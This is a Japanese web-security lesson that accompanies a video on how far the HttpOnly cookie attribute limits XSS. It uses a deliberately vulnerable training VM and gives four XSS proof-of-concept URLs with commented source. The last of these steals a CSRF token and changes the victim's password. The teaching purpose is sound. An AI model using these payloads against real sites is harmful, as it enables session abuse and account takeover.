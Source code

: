 # CookieのHttpOnly属性でどこまで安全になるのか

- 本日お伝えしたいこと
  - CookieのHttpOnly属性について説明します
  - CookieのHttpOnly属性でクロスサイトスクリプティング攻撃がどの程度安全になるかを説明します
- 前提となる環境
  - 徳丸本VM(Bad Todo List)

# PoC

```
# XSS1 (Cookieの表示)
http://example.jp/todo/todolist.php?key="><script>alert(document.cookie)</script>


# XSS2 (HTMLの表示)
http://example.jp/todo/todolist.php?key="><script>alert(document.documentElement.innerHTML)</script>


# XSS3 (XHRによるマイページ表示)
http://example.jp/todo/todolist.php?key="><script>$.ajax({url:"mypage.php"}).done(function(d){alert(d)})</script>


# XSS4 (パスワード変更)
http://example.jp/todo/todolist.php?key="><script>$.ajax({url:"changepwd.php"}).done(function(d){console.log(d);token%3dd.match("[0-9a-f]{48}")[0];console.log(token);$.ajax({type:"POST",url:"changepwddo.php",data:{newpwd:"a",newpwd2:"a",id:1,todotoken:token}})})</script>
```

参考ソースコード
```
// XSS1 (Cookieの表示)
alert(document.cooki)

// XSS2 (HTMLの表示)
script>alert(document.documentElement.innerHTML)

// XSS3 (XHRによるマイページ表示)
$.ajax({
  url: "mypage.php"
}).done(function(d) {
  alert(d)
}) // jQueryを使っているのはBad Todo ListでjQueryを使っているため


// XSS4 (パスワード変更)
$.ajax({
  url: "changepwd.php" // パスワード変更フォームをリクエスト
}).done(function(d) {
  token = d.match("[0-9a-f]{48}")[0]; // 正規表現によりトークン取得
  $.ajax({     
    type: "POST",
    url:"changepwddo.php", // パスワード変更
    data: {newpwd:"a", newpwd2:"a", id:1, todotoken:token}
  }) // ↑ パスワードを「a」に変更
})
```

動画URL : [CookieのHttpOnly属性でどこまで安全になるのか](https://youtu.be/4JREwhSC2dQ)

YouTubeチャンネル　[徳丸浩のウェブセキュリティ講座](https://www.youtube.com/channel/UCLNW6Bo_YU3TxnzsII2gEDA)
